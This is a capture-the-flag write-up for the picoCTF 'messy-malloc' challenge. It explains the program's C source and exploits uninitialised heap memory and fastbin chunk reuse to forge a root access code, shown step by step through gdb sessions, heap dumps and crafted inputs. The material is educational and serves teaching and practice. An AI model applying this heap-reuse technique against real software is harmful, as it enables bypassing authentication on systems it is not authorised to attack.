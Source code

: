 # messy-malloc 300 points (pwn, pico, heap, unclear-memory)

Notes:
- source code given: yes
- binary given: yes

### Enumerations
This was my first heap-exploitation challenge. I've spend some time reading through tutorials before I've approached it.

The program itself allows user to perform some basic actions:

![](img/actions.png)

We can see that to obtain the flag we have to login as a user with a correct access code.

```c
void print_flag() { // simplified
  [...] // read flag

  unsigned long ac1 = ((unsigned long *)u->access_code)[0];
  unsigned long ac2 = ((unsigned long *)u->access_code)[1];
  if (ac1 != 0x4343415f544f4f52 || ac2 != 0x45444f435f535345) {
    fprintf(stdout, "Incorrect Access Code: \"");
    return;
  }
  
  puts(flag);
}
```

The user structure is defined as:

```c
struct user {
  char *username;
  char access_code[ACCESS_CODE_LEN];
  char *files; // unused
};
```

So my first idea was to look for every place where the `access_code` is set.
But here comes the surprice! There is no such place in the code! Moreover I couldn't spot any vulnerabilities like buffer overflow etc. Challenge name clearly indicates to look for malloc connected vulnerability. And I've found it. When we call malloc, the memory is not initialized:

![](img/manmalloc.png)

This means that when we call malloc, the returned memory is not initialized to zeros. It can contain data from previous usage. Amazing! Now we just have to find a way to fill part of memory with correct access code and later on find a way to allocate a `struct user` on this part of memory.

When we look at the commands which we can invoke, we see that:

```c
int login() { // simplified
  u = malloc(sizeof(struct user));

  int username_len;
  puts("Please enter the length of your username");
  scanf("%d", &username_len);

  char *username = malloc(username_len+1);
  u->username = username;

  puts("Please enter your username");
  fgets(username, username_len, stdin);
  [...]
}
```

that `login` function allocates space for both `struct user` and for `username`,

```c
int logout() {
  char *user = u->username;
  if (u == &anon_user) {
    return -1;
  }
  else {
    free(u);
    free(user);
    u = &anon_user;
  }
  return 0;
}
```

while `logout` function frees the above allocated memory.

### Exploit
As an attacker we don't control the fields of `struct user`, but we do control the `username`. So attack is quite simple. Let's first allocate memory for `username` and place correct access code within it. Secondly free that memory, so it get's back to free memory pool and finaly allocate a new `struct user` in the same place so the access_code field is initialized with `ROOT_ACCESS_CODE`.

As ` struct user` is 32 byte size the malloc uses `fastbins 32 byte` for it, so we need to make our `username` same size.

Let's see our exploit under `gdb`. 

```bash
gdb -q auth
```

We will start with setting breakpoint at `fgets` command which asks for command.

```gdb
gdb-peda$ pd main
[...]
  0x0000000000400d38 <+209>:	mov    esi,0x100
  0x0000000000400d3d <+214>:	call   0x400860 <fgets@plt>
  0x0000000000400d42 <+219>:	test   rax,rax
[...]
End of assembler dump.
gdb-peda$ b *0x0000000000400d3d
Breakpoint 2 at 0x400d3d: file /usr/include/x86_64-linux-gnu/bits/stdio2.h, line 262.
gdb-peda$ c
Continuing.
Commands:
	login - login as a user
	print-flag - print the flag
	logout - log out
	quit - exit the program

Enter your command:
[anon]>
```

Now let's allocate and fill with our access_code the memory using `login` function.
As username length we pass 31 as login function allocates one more byte for null byte. When asked for username we prefix our access_code with 8 bytes of junk. This is because this 8 bytes will be a pointer to username.
```gdb
gdb-peda$ c
Continuing.
login
Please enter the length of your username
31
Please enter your username
AAAAAAAAROOT_ACCESS_CODE
```

Now let's take a look at a heap memory layout.

```gdb
gdb-peda$ vmmap 
[...]
0x00603000         0x00624000         rw-p	[heap]
[...]
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x00000000006036a0	0x0000000000000000
0x603680:	0x0000000000000000	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x4141414141414141	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
0x6036d0:	0x0000000000000000	0x0000000000000000
[...]
```

We can see that [0x603660 - 0x60368f] chunk contains the `struct user` allocated by login function. Block 0x00000000006036a0 is a `char *username` field of this struct pointing to [0x6036a0-0x6036bf] username chunk.

Now let's free that memory so we can later allocate new user in place of username.

```gdb
gdb-peda$ c
logout
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x0000000000000000	0x0000000000000000
0x603680:	0x0000000000000000	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x0000000000603670	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
[...]
```

Note that not much has changed. The memory hasn't been zerod as we expected even though it is now marked as free. We can tell this by observing that
[0x603670-0x603678] now instead of pointer to username contains 0x0000000000000000. This is because when fastbin chunk is unallocated it has `struct malloc_chunk* fd;` poiting to next free chunk. As [0x603660-0x60367f] is a head of a free fastbin 32byte chunk list, the `fd` points to NULL.
The [0x6036a0-0x6036a8] points to 0x0000000000603670 and is a tail of fastbin 32byte chunk list.

Now let's login as a new user and examine the heap.

```gdb
gdb-peda$ c
Continuing.
login
Please enter the length of your username
31
Please enter your username
BBBBBBBBBBBBBBBBBBBBBBBB
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x4242424242424242	0x4242424242424242
0x603680:	0x4242424242424242	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x0000000000603670	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
[...]
```

Can you see how the new `struct user` has been allocated in place of previous `username`?
If not, then use this useful trick (the program might has to be compiled with -g flag):

```gdb
gdb-peda$ set $u=(struct user*) 0x6036a0
gdb-peda$ p *$u
$3 = {
  username = 0x603670 'B' <repeats 24 times>, 
  access_code = "ROOT_ACCESS_CODE", 
  files = 0x0
}
```

Now all we have to do is to call a print-flag function:

```gdb
gdb-peda$ c
Continuing.
picoCTF{XXXXXXXXXXXXXXXXX}
```

